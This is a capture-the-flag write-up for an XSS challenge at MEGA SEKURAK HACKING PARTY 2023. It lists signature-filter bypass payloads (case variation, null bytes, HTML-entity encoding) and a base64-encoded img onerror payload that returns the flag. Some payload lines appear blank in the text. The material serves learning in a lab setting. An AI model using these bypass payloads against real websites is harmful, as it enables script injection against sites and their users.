





# MSHP 2023 - [7] now that's xxs!  

**CTF Name:** MEGA SEKURAK HACKING PARTY 2023  
**Challenge name:** [7] now that's xxs!  
**Challenge description:**  
> This page is somehow broken. Where's the ?payload?  
> UPDATE:  
> If you see a base64 - you are on a right track   

**Challenge URL:** http://ctf.securitum.ninja/ctfX/  
**Challenge category:** websec/xss  
**Challenge points:** 100  

* * *  

## Steps to solve  
This challenge website openly said: "Broken XSS Challenge" and "Your goal is to execute an alert using a bypass technique and retrieve the flag.", alright, but how?  
  

Opening *Web Developer Tools* allowed me to see, that the payload form is hidden. I changed HTML code to unhide and enable it, and sent the following payload:  
```html  
<script>alert(1)</script>  
```  

Of course, I didn't get the alert - it would be too easy. However I received "I don't like this tag" message/hint:  
  

And while observing URL, it now had parameter **?payload=** added, which I could later use to quickly send GET requests.  

> At that time I thought about the hint I received  
> "I don't like this tag"  
> Alright! But how can I make you like it?  

What are the ways to *bypass signature-based filters*?  
```  
If the filter is naive, then tag character case variation can bypass it:  
<sCrIpT>alert(1)</sCrIpT>  

Other way is to add NULL byte [%00] in any position:  
<[%00]script>alert(1)</script>  
<scr[%00]ipt>alert(1)</script>  
<script>a[%00]lert(1)</script>  

One can also use trick with space (or equiv char) following tag name:  
<script/blahblah>alert(1)</script>  

And lastly, it is nice to check whether HTML-encoding bypasses the filter:  
# This obfuscation technique could work, as browser HTML-decodes attributes before processing them  
<script>a&#x006c;&#x0065;rt(1)</script>  
&lt;script&gt;alert(1)&lt;/script&gt;  
&lt;script&gt;alert&lpar;1&rpar;&lt;&sol;script&gt;  

# Or if you are mental (&lt; = &#x003c; and &gt; = &#x003e;):  
&#x003c;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x0031;&#x0029;&#x003c;&#x002f;&#x0073;&#x0063;&#x0072;&#x0069;&#x0070;&#x0074;&#x003e;  
```  

However, the above trickery did not work for me, meaning that organizers allowed specific tag only.  
I tried couple, but found out that **\** is the one I was looking for:  
  

But what's that? Yet another error? Yet another hint?  
Payload I tried was:  
```html  
  
```  
which basically tries to load image with source **foo** (non-existent), and if it cannot be loaded - it executes **alert(1)**.  

You want base64 encoded payload bro? You get base64 encoded payload... bro:  
```html  
 = PGltZyBzcmM9ImZvbyIgb25lcnJvcj0iYWxlcnQoMSkiPg==  
```  

I sent above base64 payload in GET request, and received the flag:  
  

```  
I see base64 which I like!  

Flag: chr(84)||chr(86)||chr(78)||chr(73)||chr(85)||chr(70)||chr(57)||chr(55)||chr(81)||chr(71)||chr(89)||chr(107)||chr(81)||chr(69)||chr(119)||chr(122)||chr(78)||chr(69)||chr(100)||chr(107)||chr(83)||chr(68)||chr(70)||chr(53)||chr(99)||chr(107)||chr(108)||chr(52)||chr(102)||chr(81)||chr(61)||chr(61)  
```  

I used find and replace to concatenate those characters with plus sign in python, and then printed flag:  
```python  
flag = chr(84)+chr(86)+chr(78)+chr(73)+chr(85)+chr(70)+chr(57)+chr(55)+chr(81)+chr(71)+chr(89)+chr(107)+chr(81)+chr(69)+chr(119)+chr(122)+chr(78)+chr(69)+chr(100)+chr(107)+chr(83)+chr(68)+chr(70)+chr(53)+chr(99)+chr(107)+chr(108)+chr(52)+chr(102)+chr(81)+chr(61)+chr(61)  
print(flag)  
```  

```shell  
$ python3 flag.py  
TVNIUF97QGYkQEwzNEdkSDF5ckl4fQ==  
```  

But what is that? Another layer of encoding...?  
It's clearly base64, so let's *CyberChef* it! (you may of course pick *base64encode.org* or similiar):  
  

**FLAG:** MSHP_{@f$@L34GdH1yrIx}  

## Additional comments  
This challenge was really interesting and allowed me to discover various techniques on how to *bypass signature-based filters*. [*PortSwigger*](https://portswigger.net/support/bypassing-signature-based-xss-filters-modifying-html) was one of the best.